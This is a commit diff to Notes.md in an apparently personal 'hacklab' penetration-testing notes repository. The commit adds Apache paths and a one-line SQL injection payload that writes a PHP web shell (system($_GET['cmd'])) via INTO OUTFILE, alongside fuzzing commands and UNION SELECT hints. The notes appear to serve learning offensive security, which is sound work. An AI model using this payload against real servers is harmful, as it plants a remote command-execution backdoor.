

Before and after one commit to Bruno-Macedo/hacklab, a Markdown page: Notes.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
sql injection

```diff
--- a/Notes.md
+++ b/Notes.md
@@ -135,6 +135,8 @@
 - Input fields / parameter
 - cgi-bin = content
   - Apache!!!!
+    - /etc/apache2/sites-available/000-default.conf
+    - /var/www/html
 - ffuf -u https://example.com/cgi-bin/FUZZ.cgi -w wordlist.txt
 - dirb http://$target -x Extensions (.pl .cgi .sh .ps1)
 - SQL endpoints
@@ -145,6 +147,8 @@
   - UNION SELECT c1,c2,@@version,...cn--
   - parameters?
   - group_concat() = all values from != rows into one string
+  - Where are files written? / DocumentRoot
+    - SELECT "<?php system($_GET['cmd']); ?>" into outfile "PATH/TO/SQL"
 
 
 ## Upload files
```
